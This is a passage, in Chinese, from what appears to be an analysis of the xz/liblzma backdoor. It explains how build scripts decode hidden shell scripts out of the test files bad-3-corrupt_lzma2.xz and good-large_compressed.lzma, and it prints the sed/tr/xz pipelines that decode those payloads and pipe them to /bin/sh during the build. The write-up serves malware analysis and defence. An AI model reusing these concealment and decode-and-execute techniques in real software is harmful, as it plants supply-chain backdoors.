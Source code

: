 结合上下文，该行代码实际执行如下，使用 `sed` 命令读取 `bad-3-corrupt_lzma2.xz` 文件内容，使用 `tr` 命令按 `[\t -_]=>[ \t_-]` 的对应关系进行字符替换，随后使用 `xz` 命令进行解压：
```
sed "r\n" bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d
```

解压后将获得 bash 脚本文件[helloworld.sh](./helloworld.sh)，其内容如下：
<div align="center">
<img src="images/extract-helloworld-sh.png" width=700>
</br>[9.bad-3-corrupt_lzma2.xz提取的脚本]
</div>

这里使用了 `AC_CONFIG_COMMANDS` 注册了 `build-to-host` 命令，后续调用该命令时就会执行 `eval $gl_config_gt` 代码，即 `helloworld.sh` 脚本文件。

**3.good-large_compressed.lzma**  
`helloworld.sh` 脚本同样先对环境进行了检查，随后使用 `xz` 命令解压 `[src]/tests/files/good-large_compressed.lzma` [后门文件](./good-large_compressed.lzma)，使用 `head` 和 `tail` 命令截取文件内容，再次使用 `tr` 命令对内容进行字符替换，最后使用 `xz` 命令对嵌套的文件进行解压，整理后的关键命令如下：
```
xz -dc $srcdir/tests/files/good-large_compressed.lzma |
eval $i |
tail -c +31233 |
tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377") |
xz -F raw --lzma1 -dc |
/bin/sh
```

此处通过 `xz -F raw --lzma1 -dc` 命令解压将得到新的 bash 脚本文件[decompressed.sh](./decompressed.sh)。

**4.decompressed.sh**  
`decompressed.sh` 这个脚本的代码较长，大多为环境检查和兼容性调整，最关键的代码有三段，第一段代码如下：
<div align="center">